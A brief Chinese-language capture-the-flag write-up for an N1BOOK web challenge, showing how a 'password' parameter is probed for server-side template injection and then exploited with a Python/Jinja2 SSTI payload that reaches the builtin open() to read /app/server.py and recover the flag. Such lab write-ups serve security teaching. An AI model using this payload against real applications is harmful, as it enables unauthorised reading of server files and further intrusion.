




## flag
`n1book{eddb84d69a421a82}`

## 思路
1. 访问环境时显示password不存在，根据题目要求知道是SSTI注入，需要找到注入点。  
    
2. 猜测注入点为`password`参数，先用get传参`password=123`，`password={{3*3}}`，确实存在模板注入。  
   
   
3. 使用SSTI payload获得server.py文件内容，其中包含有flag。  
   ```{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['open']("/app/server.py").read()}}```
   

## 总结
SSTI payload见[afr-3](N1BOOK/[第一章%20web入门]afr-3.md)